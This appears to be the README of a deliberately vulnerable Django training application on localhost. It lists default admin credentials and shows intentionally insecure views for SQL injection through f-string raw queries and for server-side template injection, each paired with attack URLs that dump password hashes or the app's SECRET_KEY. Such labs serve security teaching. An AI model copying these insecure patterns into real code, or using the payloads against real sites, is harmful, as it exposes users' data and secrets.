 # Django Vulnerable Application

## Overview
A deliberately vulnerable Django application demonstrating common security issues in Django web applications, including misconfigurations and framework-specific vulnerabilities.

## Quick Start

**Access URL**: http://localhost:8093

**Admin Panel**: http://localhost:8093/admin

**Default Credentials**:
- Admin: `admin` / `admin123`
- User: `testuser` / `password123`

## Application Features

- User authentication system
- Blog/Article management
- Comment system
- File upload functionality
- API endpoints
- Admin interface

## Vulnerabilities

### 1. SQL Injection via Raw Queries
```python
# Vulnerable view
def search_users(request):
    name = request.GET.get('name')
    users = User.objects.raw(f"SELECT * FROM users WHERE name = '{name}'")
    
# Attack
http://localhost:8093/search?name=' OR '1'='1
http://localhost:8093/search?name=' UNION SELECT password FROM auth_user--
```

### 2. Template Injection (SSTI)
```python
# Vulnerable template rendering
def render_template(request):
    template_string = request.GET.get('template')
    template = Template(template_string)
    return HttpResponse(template.render(Context()))
    
# Attack
http://localhost:8093/render?template={{7*7}}
http://localhost:8093/render?template={{settings.SECRET_KEY}}
```
